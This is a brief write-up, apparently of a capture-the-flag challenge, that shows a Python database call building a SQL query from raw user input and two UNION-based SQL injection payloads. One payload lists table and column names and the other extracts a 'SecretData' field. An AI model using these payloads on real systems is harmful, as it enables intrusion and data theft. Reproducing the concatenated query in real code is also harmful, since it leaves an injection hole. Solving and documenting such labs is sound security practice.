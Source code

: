 You can see python code by accessing /?source=1  

Vulnerable piece of code:  

```
mycursor.execute("SELECT * FROM coupons WHERE code = '" + opcode + "'")
```   
## SQL:  
```
' UNION SELECT 1, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema' AND ''='  
```  
## SQL:  
```
' UNION SELECT 1,SecretData,2 FROM 64ff585930293b81079991770a3b28de WHERE ''='
```

